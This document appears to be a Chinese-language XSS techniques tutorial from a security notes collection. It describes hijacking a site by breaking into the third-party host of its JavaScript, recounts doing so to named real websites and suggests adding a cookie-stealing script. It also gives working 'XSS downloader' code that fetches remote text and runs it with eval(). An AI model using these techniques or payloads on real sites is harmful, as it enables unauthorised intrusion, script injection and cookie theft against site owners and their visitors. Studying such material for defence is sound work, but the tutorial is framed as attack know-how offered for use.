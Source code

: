 # XSS技巧

## 01. 前言

遗留的问题

```
问1：只能更改IP么？
答1：不是，这里只是一个例子，大家需要发散思维。Referer User-Agent Cookie 等都可以的。
问2：我一个站也是http头部获取用户信息地方存在注入，可否xss？
答2：存在注入说明你把用户信息放到数据库里了，如果不显示前/后台显现用户信息，则不存在XSS。
```

## 02. 第三方劫持 (外调J/C)
本方法是我看长短短贴代码时知晓的，这篇文章我只是把这个攻击手法整理了出来，来说明这个漏洞，这个攻击手法并不是我发现的，我也不是太清楚是谁。“第三方劫持”就是把资源域的服务器的权限拿下，替换相关资源，采用‘迂回式’的渗透方式。

** PS ** ：J/C指的是javascript、css，其实还包括flash、etc、html等等，只是这个不经常使用而已，所以就不说了。

从字面上大家也可以猜出来，这是种什么攻击手法。名字里的"外调"不是从目标网站上插入新的J/C。而是在目标网站上找到不是本站的J/C。然后渗透那个网站，重写J/C。来达到渗透目标网站。

可是要怎么找到非本站的J/C呢？！不要担心， “长短短”已经写好相关的代码了，获取非本站的J/C。

```
for(var i=0,tags=document.querySelectorAll('iframe[src],frame[src],script[src],link[rel=stylesheet],object[data],embed[src]'),tag;tag=tags[i];i++){
  var a = document.createElement('a');
  a.href = tag.src||tag.href||tag.data;
  if(a.hostname!=location.hostname){
    console.warn(location.hostname+' 发现第三方资源['+tag.localName+']:'+a.href);
  }
}
```

把这段输入在F12“审查元素”里”控制台”里，回车就OK。

OK，原理说完了。我们来个实例。

我们在http://www.zj4000.com/ 网站上使用上面的代码，获取到，其中有个www.xss8.pw的js。

![](/attackUsers/xss/image/xss-33.png)

那么我就渗透他试试，20分钟后…….好了，渗透完了。我们现在来重写JS，现在我们先测试下能不能用，我先在1.js里写上`alert(&#039;xss&#039;);`

![](/attackUsers/xss/image/xss-34.png)

现在，我们再来看看 www.zj4000.com 怎么样了。

![](/attackUsers/xss/image/xss-35.png)

看来，已经被成功调用了。我这里没有用css来说，因为js比较规范点，而且用css来实现我这上面的功能，同理SWF也可以实现上面的功能。我相信大家都会了，不需要我再多说什么了。

现在你已经掌握了一个可随时变化的储蓄xss，我们可以自己写个脚本，来获取目标的cookies。

这些我就不说了，我只是把这门冷门但是比较有潜力的攻击手法和大家说下。这个攻击手法比较有局限性，只要网站有着可以实现攻击环境， 那么的危害将会非常大。

想继续了解的可以看看黑哥写的WEBsec2-public.ppt

## 03 XSS downloader（XSS下载器）
此方法是由cnn4ry在《XSS跨站脚本攻击剖析与防御》里提起过。

这个技术其实就是把反射和储蓄结合起来，把核心代码写在网站上，然后以XSS触发并调用代码，实现攻击。

在《XSS跨转脚本攻击剖析与防御》里的代码不太正确，没有使用onreadystatechange的readyState来判断是否请求完成，也没有用status判断页面是否存在。导致没符合这几个条件的情况下就输出了，此时内容是空的，所以不会成功，我就自己写了一个ajax获取的。

下面是代码

```html
<html>
    <head>
        <title>ajax</title>
        <meta http-equiv="content-type" content="text/html;chaset=utf-8" />
    </head>
    
    <boby>
        <script>
            var xmlhttp;
            var request_text;
            if(window.XMLHttpRequest)
            {
                xmlhttp = new XMLHttpRequest();
            }
            else
            {
                xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
            }
            xmlhttp.onreadystatechange=function()
                                       {
                             if(xmlhttp.readyState==4 &&xmlhttp.status==200)
                             {
                                 request_text=xmlhttp.responseText;
                                 var a = request_text.indexOf("woaini")+6;
                                 var b = request_text.indexOf("niaiwo");
                                 eval(request_text.substring(a,b));
                             }
                                       }
            xmlhttp.open("POST","ajax.php","true");
            xmlhttp.send();
        </script>
    </boby>
</html>
```





